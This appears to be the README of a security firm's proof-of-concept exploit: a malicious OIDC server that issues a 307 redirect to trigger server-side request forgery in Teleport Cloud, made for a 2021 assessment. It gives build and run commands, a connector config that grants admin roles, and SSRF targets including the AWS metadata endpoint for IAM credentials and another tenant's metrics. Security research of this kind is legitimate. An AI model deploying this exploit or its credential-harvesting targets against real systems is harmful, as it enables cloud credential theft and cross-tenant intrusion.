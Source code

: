 # oidc-ssrf

Evil OIDC server: the OpenID Configuration URL returns a 307 to cause SSRF.

## 1. Install

```
git clone --depth=1 https://github.com/doyensec/oidc-ssrf.git
cd oidc-ssrf
go get "github.com/dgrijalva/jwt-go"
go build oidc.go
```

## 2. Run the OIDC server

The OIDC server will have to run on a domain with HTTPS.

```
./oidc -listen 0.0.0.0:5999 \
       -issuer https://dscollaborator.example.com/ \
       -ssrf http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

The issuer should be the publicly exposed URL of the OIDC server.

You can use an ngrok tunnel, caddy or something else to proxy the OIDC server (port 5999) over HTTPS. 
You need to be able to access the OIDC server from the issuer URL.

## 3. Add OIDC auth connector

Logged in as an admin of your tenant, go to Team > Auth Connectors > New Auth Connector > OIDC CONNECTOR.

```yaml
kind: oidc
metadata:
  name: ssrfpoc
spec:
  claims_to_roles:
  - claim: hd
    roles:
    - admin
    value: example.com
  client_id: <client id>
  client_secret: <client secret>
  display: ssrfpoc
  issuer_url: https://dscollaborator.example.com/
  redirect_url: https://doyensec--------------------bc.teleport.sh/v1/webapi/oidc/callback
  scope:
  - <scope value>
version: v2
```

Change the issuer_url (must match your domain and end in a forward slash) and redirect_url (use your tenant's cluster domain).

You should see the message `Returning nice friendly OpenID Configuration` in the OIDC server output.
Wait one minute just to make sure the config is synced (may not be strictly necessary).

## 4. Try to login

Attempt to login to the tenant web interface via the SSRFPOC method above (using private browsing or another browser). The login attempt will fail.
In the admin tab look in Activity > Audit Log. You should see a "SSO Login Failed" message:

```
SSO user login failed [
  OAuth2 error code=unsupported_response_type,
  message=failed to decode provider response "tenant-doyensec--------------------bc-role"
]
```

## 5. Try different SSRFs

The Go server can be killed and restarted with different SSRF urls such as:

*  Another tenant's prometheus: http://100.92.47.7:3000/metrics
*  Get temporary AWS keys (kiam, not host keys) http://169.254.169.254/latest/meta-data/iam/security-credentials/tenant-{mytenant}-role

You can continually attempt different SSRFs by retrying step 4.


## Credits

This PoC has been created by [Doyensec LLC](https://www.doyensec.com) for the Q1 2021 assessment of [Teleport Cloud](https://goteleport.com/teleport/cloud/). 

![alt text](https://doyensec.com/images/logo.svg "Doyensec Logo")
